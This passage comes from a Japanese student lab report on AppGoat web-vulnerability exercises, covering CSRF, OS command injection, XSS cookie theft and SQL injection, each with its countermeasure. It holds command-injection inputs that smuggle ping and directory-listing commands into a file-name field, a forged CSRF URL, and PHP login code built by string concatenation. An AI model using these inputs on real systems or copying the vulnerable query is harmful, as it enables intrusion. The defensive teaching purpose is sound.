    \fbox{
\includegraphics[keepaspectratio,scale=0.3]{cs2.png}}
    \end{center}
    \caption{パスワードが不一致}
  \end{minipage}
\end{figure}
 \\

このような攻撃への対策として、下の図32のようにhidden属性でトークンを持たせ、リクエストを受けた際に利用者の確認をすることが挙げられる。\\
\begin{figure}[H]
  \centering
  \fbox{
\includegraphics[scale=0.35]{cs3.png}}
  \caption{ソースコード}\label{fig:図32}
\end{figure}

 
\subsection{意図しない命令の実行}
このウェブサイトは、hidden属性のトークンを保持しているが、値が固定であり、変更直前にパスワー
ドを求められることもないのでCSRFの脆弱性があるといえる。個人情報公開設定を変更することを目標に、意図しないリクエストを送信させる罠のリンクを作成し、掲示板に投稿する。\\\\
設定変更に関するURLを観察すると、個人情報公開の設定に相当するのが、publicという名前のパラメータであると分かった。「公開する」に設定したいので、publicのパラメータを1にするような
URL「\url{http://appgoat.cysec-lab.org/Users/is0550kr/Web/Scenario1321/VulSoft/sns.php?page=4&public=1}」を作成した。このURLを掲示板に投稿し、ログイン状態である人がアクセスした場合、設定が変更される。
下の図33は、実際にそのURLにアクセスしたときの画面である。また図34より、URLにアクセスしたyamadaさんの設定が変更されていることを確認できた。\\\\
このような攻撃への対策として、hidden属性のトークンに、安全な疑似乱数を用いて生成した秘密情報を挿入することが挙げられる。そして、ユーザからWebページ表示のリクエストを受けた際には、hidden属性の値と秘密情報を比較し、一致しない場合は処理を行わないようにする。
\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{cs4.png}
    \end{center}
    \caption{URLアクセス結果}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{cs5.png}
    \end{center}
    \caption{設定画面}
  \end{minipage}
\end{figure}

 

\subsection{不完全な対策}

CSRFの対策として、リクエストに秘密情報を含ませる方法が有効だが、秘密情報に規則性がある場合、秘密情報を推測され、この対策を回避されてしまう可能性がある。
SNSサイトに複数回ログインして、hidden属性に格納されている秘密情報の値を調査した。下の図35,36はそれぞれ1度目と2度目のログイン時のページのhtmlソースである。
秘密情報はhidden属性のsecretに格納されており、1度目の値が1000、2度目の値が1001となっている。
この後も何度かログインした結果、secretの値は初期値が1000であり、ログインをしてセッションを確立するたびに1ずつ増えるという規則性があることが分かった。\\

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{cs4.png}
    \end{center}
    \caption{URLアクセス結果}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{cs5.png}
    \end{center}
    \caption{設定画面}
  \end{minipage}
\end{figure}
 \\
攻撃者に秘密情報を推測され、CSRFの対策が回避されることを防ぐために、秘密情報を利用する場合は、安全な疑似乱数を用いて、第三者に予測困難な秘密情報を利用する必要がある。\\

\section{OSコマンド・インジェクション}
\subsection{脆弱性の概要および発見}
\subsubsection{OSコマンド・インジェクションとは}
OSコマンド・インジェクションとは、悪意のあるリクエストにより、ウェブアプリケーションが意図しないOSコマンドを実行することで、システムに不正にアクセスされてしまう脆弱性である。
この脆弱性が悪用されるとサーバ内のファイルが閲覧、改ざん、削除されたり、システムが不正に操作される可能性がある。

\subsubsection{脆弱性の発見}
ファイル名の変更、メールの送信などの処理にシェル経由でOSコマンドを実行している場合、受け取った入力データをエスケープ処理せずにコマンドに代入している場合に、OSコマンド・インジェクションの脆弱性となる。
この検査方法として、画面の入力パラメータに「\& /windows/system32/ping \-n 21 127.0.0.1」を入れて、リクエストを送信し、処理に約20秒の遅延が発生すれば脆弱性があると分かる。\\\\
下の図37,38のように、Webメールアプリケーションの入力欄において、上記の検査方法を行ったところ、処理に約20秒の遅延が生じ、脆弱性があることが確認できた。この脆弱性への対策として、「\&」を「'\&'」に置換するなど、シェルにおいて特別な意味を持つ文字に対して、エスケープ処理を行うことが挙げられる。\\

\begin{figure}[H]
  \centering
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{os1.png}
    \end{center}
    \caption{メール送信画面}
  \end{minipage}
  \begin{minipage}[b]{0.45\linewidth}
  \begin{center}
    
\includegraphics[keepaspectratio,scale=0.3]{os2.png}
    \end{center}
    \caption{実行結果}
  \end{minipage}
\end{figure}
 

\subsection{システム情報の漏えい}
OSコマンド・インジェクションの脆弱性が利用されることで、ディレクトリ名などの情報が漏えいする可能性があることを確認する。
初めに、Webショッピングサイトの脆弱性を発見するために、商品管理のページから、変更後ファイル名の欄に「example3.txt \& /windows/system32/ping \-n 21 127.0.0.1」
を入力して送信した。その結果、約20秒の遅延が発生したため、この入力欄に脆弱性があることが確認できた。

この脆弱性を利用して、Cドライブ直下のファイル名とフォルダ名の一覧を取得するOSコマンド「dir /b c:\textbackslash 」を実行させる。
変更後ファイル名の欄に「example2.txt \& dir /b c:\textbackslash 」と入力したところ、下の図39のように、情報を表示させることができた。\\

\begin{figure}[H]
  \centering
  
\includegraphics[scale=0.32]{os3.png}
  \caption{実行結果}\label{fig:図39}
\end{figure}


このような攻撃は、シェル経由でOSコマンドを実行している場合に起こされる可能性がある。
対策としては、exec()等のシェル機能を呼び出せる関数を避け、同じ処理のできる別の関数を用いることや、シェル機能を呼び出せる関数を使う必要がある場合には、エスケープ処理を行うことが挙げられる。\\


\section{問題}
\subsection{問1 クロスサイト・スクリプティング}
\subsubsection{(a)Cookieが漏えいしない仕組みはどのようなものか}
Cookieとは、Webサイトがユーザーの情報を一時的に保持するために、ブラウザに保存するファイルのことである。
Cookieには様々な属性を付与することが可能であり、Cookieが安全に送信され、意図しない第三者やスクリプトからアクセスされないようにするために、Secure属性とHttpOnly属性の2つがある。\\\\
Secure属性がついたCookieはhttpsプロトコル上の暗号化されたリクエストでのみサーバーに送信され、暗号化されていないhttpでは決して送信されないため、傍受されていたとしてもCookieの情報の漏洩を防ぐことができる。
また、HttpOnly属性を持つCookieは、JavaScriptでCookieの読み書きを行うDocument.cookieAPIからアクセスすることができないため、クロスサイトスクリプティング攻撃を緩和するのに役立つと考えられる。\\

\subsubsection{(b)クロスサイトスクリプティングではなぜCookieが漏洩してしまうのか}
CookieにHttpOnly属性が付与されていない場合、JavaScriptからCookieへのアクセスが可能である。よって、クロスサイト・スクリプティングの脆弱性により、攻撃者のスクリプトをユーザが実行することで、ユーザーがCookieを含んだ状態で攻撃者のサイトにアクセスしてしまう。
その際に攻撃者サイトのWebサーバに残るログなどから、Cookieが攻撃者に漏えいすることになる。\\
\subsubsection{(c)Cookieの漏洩によって起きうる被害はなにか}
Cookieにはユーザがログインした際のセッションIDが格納されているので、Cookieが漏洩した場合、攻撃者はそのユーザに成りすまして、ユーザのみが利用可能なサービスを利用される「セッションハイジャック」が起きる。これにより、ユーザの情報が漏えいしたり、パスワードなどの情報が変更されてしまうといった被害が起きる。\\

\subsubsection{(d)クロスサイト・スクリプティングでCookieが漏洩しないようにするためには}
システムの仕様上どうしてもJavaScriptで参照が必要なケースを除いては、CookieにHttpOnly属性を持たせることが効果的である。また、ネットバンクなど重要な情報を扱うサイトでは、一定時間が過ぎると自動的にログアウトするような設定にするか、ブラウザを閉じるなどのセッション終了時にCookieが切れる
ようにすることが求められる。\\

\subsection{問2 不正なログイン(文字列リテラル)のコード修正}
以下は修正前のコードである。入力されたデータを文字列連結によりSQL文に代入しているため、SQLインジェクションの脆弱性となる。\\

\begin{lstlisting}[caption=修正前ソースコード,label=1]
  public function login()
  {
      $db = $this->get_db();
      // リクエストパラメタを取得
      $param = $this->get_param();
      try {
          // ユーザからの入力値を文字列連結してSQL文を組み立てる
          $stmt = $db->prepare("SELECT * FROM user WHERE id = '" . $param["id"] . "' AND password = '" . $param["password"] .  "';");
          if ($stmt == null) {
              throw new Exception();
          }
          // プレースホルダを使わずにプリペアドステートメントを実行する
          $stmt->execute();
  //以下は省略
\end{lstlisting}
 \\
8〜9行目のSQL文に入力パラメータを反映する部分を、SQL文の雛形の中に変数の場所を示すプレースホルダ「?」を置いて、
後から値を挿入するように修正する。下の修正例では、先にSQL文を確定させ、13行目で値の配列を渡してプリペアドステートメントを実行するため、入力データによってSQL文が変更されることを防いでいる。\\


\begin{lstlisting}[caption=修正後ソースコード,label=1]
  public function login()
  {
      $db = $this->get_db();
      // リクエストパラメタを取得
      $param = $this->get_param();
      try {
          // 疑問符パラメータを用いてSQLステートメントを準備する
          $stmt = $db->prepare("SELECT * FROM user WHERE id = ? AND password = ?");
          if ($stmt == null) {
              throw new Exception();
          }
          // 値の配列を渡してプリペアドステートメントを実行する
          $stmt->execute(array($param["id"], $param["password"]));
  //以下は省略
\end{lstlisting}

\subsection{問3 CSRFの「意図しない命令の実行」の対策}
Hidden属性を用いた秘密情報の交換以外の方法でCSRFの意図しない
命令を防ぐ方法として、重要な命令の直前に確認画面を設けることがあげられる。
どのような命令が実行されるのかをユーザに示すことで、ユーザが意図しない命令であった場合に、命令の実行を取り止めることができるためである。


\end{document}